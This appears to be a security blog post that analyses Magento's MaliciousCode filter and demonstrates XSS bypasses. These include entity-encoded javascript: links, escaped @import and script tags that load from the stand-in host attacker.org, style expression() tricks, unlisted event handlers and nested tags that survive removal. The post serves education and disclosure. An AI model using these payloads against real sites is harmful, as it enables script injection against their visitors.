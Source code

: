 ```yaml
---
layout: post
title: "Circumventing XSS filters"
thumbnail: water-pipe-240.jpg
date: 2016-01-29
---
```


XSS or cross site scripting is an attack where an hacker injects Javascript in a page that is then run by another visitor. To prevent this, some software tries to remove any Javascript from the input. This is pretty hard to implement correctly.  In this article I will show some code that tries to remove Javascript code from the input, and show several ways to circumvent this.

Take for example the class [`Mage_Core_Model_Input_Filter_MaliciousCode`](https://github.com/nexcess/magento/blob/master/app/code/core/Mage/Core/Model/Input/Filter/MaliciousCode.php)
from the webshop software [Magento](https://magento.com/). This class is meant to filter "malicious code", which means any way to insert Javascript. 

The code looks like this:

    protected $_expressions = array(
        '/(\/\*.*\*\/)/Us',
        '/(\t)/',
        '/(javascript\s*:)/Usi',
        '/(@import)/Usi',
        '/style=[^<]*((expression\s*?\([^<]*?\))|(behavior\s*:))[^<]*(?=\>)/Uis',
        '/(ondblclick|onclick|onkeydown|onkeypress|onkeyup|onmousedown|onmousemove|onmouseout|onmouseover|onmouseup|onload|onunload|onerror)=[^<]*(?=\>)/Uis',
        '/<\/?(script|meta|link|frame|iframe).*>/Uis',
        '/src=[^<]*base64[^<]*(?=\>)/Uis',
    );

    function filter($value) {
        return preg_replace($this->_expressions, '', $value);
    }

The variable `$_expressions` contains a list of regular expressions that are removed from the text by the `preg_replace`. So if you type `<script>foo</script>`, both tags will be removed and only `foo` will remain.

Let's look at ways to circumvent this filter. Our goal is to pass some HTML through it that executes Javascript. The filter has several expressions that are meant to prevent this:

| Filter regex | Possible exploit |
| ------------ | ---------------- |
| `(javascript\s*:)` | `<a href="javascript:alert('xss')">` |
| `@import` | `@import url(http://attacker.org/malicious.css)` |
| `style=…` | `<div style="color: expression(alert('XSS'))">` |
| `ondblclick|onclick|…` | `<div onclick="alert('xss')">` | 
| `<script…` | `<script>alert("XSS")</script>` |

## Javascript URL

A link can be made to run javascript by using `javascript:…` in the URL:

    <a href="javascript:alert('test')">link</a>

Our filter removes `javascript:` from the code, so we can't use the above code directly. We can try to change the `javascript:` part so that it is still executed by the browser, but doesn't exactly match the regex. Let's try to URL-encode a letter:

    <a href="java&#115;cript:alert('xss')">link</a>

The regex no longer matches, but the browser will still execute this because it does URL-decode the link before using it.

Besides Javascript there is also VBScript. It is deprecated and disabled in IE11, but works on older versions of Internet Explorer or if you put IE11 in IE10 emulation mode. We can use this to run some code in the same way as Javascript links:

    <a href='vbscript:MsgBox("XSS")'>link</a>

## CSS import

Internet Explorer supports Javascript expressions in CSS, called [dynamic properties](https://msdn.microsoft.com/en-us/library/ms537634(v=vs.85).aspx). Allowing an attacker to load an external CSS stylesheet would thus be dangerous, as the attacker can now run Javascript in the context of the original page.

    <style>
    @import url("http://attacker.org/malicious.css");
    </style>

And in malicious.css:

    body {
        color: expression(alert('XSS'));
    }

We can circumvent the `@import` filter by using a backslash escape character in the CSS:

    <style>
    @imp\ort url("http://attacker.org/malicious.css");
    </style>

Internet Explorer allows for the backslash and now it passes our filter.

## Inline style

We can also use the dynamic properties supported by Internet Explorer in inline style:

    <div style="color: expression(alert('XSS'))">

The filter will check for `style`, followed by anything that is not a `<`, followed by `expression`:

    /style=[^<]*((expression\s*?\([^<]*?\))|(behavior\s*:))[^<]*(?=\>)/Uis

So let's put a `<` somewhere in there:

    <div style="color: '<'; color: expression(alert('XSS'))">

This passes the filter because the `[^<]` does not match our `<`, and this is still valid CSS. Although `<` is not a valid color, the rest of the CSS is still used.


## Javascript events

One can define event handlers on an element like this:

    <div onclick="alert('xss')">

Now this Javascript would only be run when someone clicks on it, but there are also events that are triggered when the page loads or when the user moves his mouse. Many of these events are removed by the filter, but it simply does not contain all event handlers. For example, `onmouseenter` is missing:

    <div onmouseenter="alert('xss')">

Our code is run when the user moves his mouse onto the div.

Another way to circumvent this is to put a space between the attribute and the `=`. Magento fixed this in a later version of the MaliciousCode filter.

    <div onclick ="alert('xss')">

## Script tag

A script tag can be used to define inline script, or load a script file from another location:

    <script>alert("XSS")</script>
    <script src="http://attacker.org/malicious.js"></script>

Our filter removes any `<script>` tags. However, it only does so once, so we can make sure that the content that we want ends up after removing the tags:

    <scr<script>ipt>alert("XSS")</scr<script>ipt>

The filter removes the two occurrences of `<script>`, and we end up with exactly the code that we want. In fact, this method of nesting tags can be used to circumvent any of filter expressions.

## Conclusion

Although the filter tries to block several methods of script injection, we found circumventions for all of them. It is not easy to create a filter to prevent XSS attacks. There are several types of encoding and a number of different browser behaviours you have to take into account. This makes it hard on the developer and easy on the attacker.

## Security implications

I have shown some ways to get Javascript through this filter anyway. This could be a security risk, except that this filter is never used with untrusted input. As can be read in the [Magento 2.0.1 release notes](https://magento.com/security/patches/magento-201-security-update):

> A user can easily bypass the MaliciousCode filter function when entering HTML code. However, Magento rarely uses this filter, and none of its current usages allow unauthenticated user input.

Furthermore, I contacted Magento on 23 January and they didn't consider this a security issue, so I felt free to publish this article.
